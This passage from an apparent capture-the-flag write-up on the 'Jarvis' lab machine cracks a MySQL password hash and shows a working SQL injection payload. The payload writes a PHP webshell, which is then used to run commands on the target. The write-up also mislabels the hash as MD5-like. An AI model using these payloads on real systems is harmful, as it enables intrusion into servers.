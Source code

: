 The SQL user `dbadmin`'s password is `*2D2B7A5E4E637B8FBA1D17F40318F277D29964D0`.
Let's crack this MD5-look hash.

![](attachments/jarvis_5.png)

The cracked password is `imissyou`.

### Webshell upload via SQLi

```
http://supersecurehotel.htb/room.php?cod=9 UNION SELECT 1,2,3,4,"<?php system($_GET['cmd']); ?>",6,7 INTO OUTFILE '/var/www/html/cmd.php' -- -
```

Using the URL above, I tried writing PHP webshell on `/var/www/html/cmd.php`.
Then, I tried to fetch the uploaded `cmd.php` with `cmd=id` parameter as its payload and it worked.

```bash
┌──(kali㉿kali)-[~/htb/jarvis]
└─$ curl http://supersecurehotel.htb/cmd.php?cmd=id
1       2       3       4       uid=33(www-data) gid=33(www-data) groups=33(www-data)
        6       7
```

Also, I can try `ls -al` using `%20` to replace whitespace.

```yaml
┌──(kali㉿kali)-[~/htb/jarvis]
└─$ curl http://supersecurehotel.htb/cmd.php?cmd=ls%20-al
1       2       3       4       total 92
drwxrwxrwx 9 root  root   4096 Apr 13 11:29 .
drwxr-xr-x 4 root  root   4096 Mar  4  2019 ..
drwxrwxrwx 2 root  root   4096 Dec  8  2018 ayax
drwxr-xr-x 2 root  root   4096 Mar  3  2019 b4nn3d
-rw-rw-rw- 1 mysql mysql    43 Apr 13 11:29 cmd.php
-rwxrwxrwx 1 root  root     75 Mar  3  2019 connection.php
drwxrwxrwx 2 root  root   4096 Dec  8  2018 css
-rwxrwxrwx 1 root  root   5803 Mar  4  2019 dining-bar.php
drwxrwxrwx 5 root  root   4096 Dec  8  2018 fonts
-rwxrwxrwx 1 root  root   2237 Mar  4  2019 footer.php
-rwxrwxrwx 1 root  root    292 Dec  8  2018 getfileayax.php
drwxrwxrwx 2 root  root   4096 Dec  8  2018 images
-rwxr-xr-x 1 root  root  14839 Mar  4  2019 index.php
drwxrwxrwx 2 root  root   4096 Dec  8  2018 js
-rwxrwxrwx 1 root  root   1591 Mar  3  2019 nav.php
lrwxrwxrwx 1 root  root     21 Mar  3  2019 phpmyadmin -> /usr/share/phpmyadmin
-rwxrwxrwx 1 root  root   2299 Mar  4  2019 room.php
-rwxrwxrwx 1 root  root   2893 Mar  4  2019 roomobj.php
-rwxrwxrwx 1 root  root   3119 Mar  4  2019 rooms-suites.php
drwxrwxrwx 3 root  root   4096 Dec  8  2018 sass
        6       7
```
